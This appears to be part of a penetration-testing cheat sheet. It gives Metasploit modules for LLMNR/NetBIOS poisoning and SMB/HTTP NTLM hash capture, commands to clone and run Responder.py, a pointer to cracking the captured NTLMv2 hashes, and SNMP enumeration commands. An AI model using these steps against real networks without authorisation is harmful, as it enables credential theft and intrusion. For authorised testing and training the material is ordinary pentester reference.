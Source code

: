 Steal credentials off the network.

##### Metasploit LLMNR / NetBIOS requests

Spoof / poison LLMNR / NetBIOS requests: 

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

Capture the hashes: 

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

You'll end up with NTLMv2 hash, use john or hashcat to crack it. 

#### Responder.py

Alternatively you can use responder. 

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```


<div class="note tip">
  <h5>Run Responder.py for the whole engagement</h5>
  <p>Run Responder.py for the length of the engagement while you're working on other attack vectors.</p>
</div>

### SNMP Enumeration Tools

A number of SNMP enumeration tools.

Fix SNMP output values so they are human readable: 

```
apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>snmpcheck -t 192.168.1.X -c public</code></p>
        <p><code>snmpwalk -c public -v1 192.168.1.X 1| <br> grep hrSWRunName|cut -d* * -f </code></p>
        <p><code>snmpenum -t 192.168.1.X</code></p>
        <p><code>onesixtyone -c names -i hosts</code></p>  
      </td>
      <td>SNMP enumeration</td>
    </tr>
  </tbody>
</table>
</div>
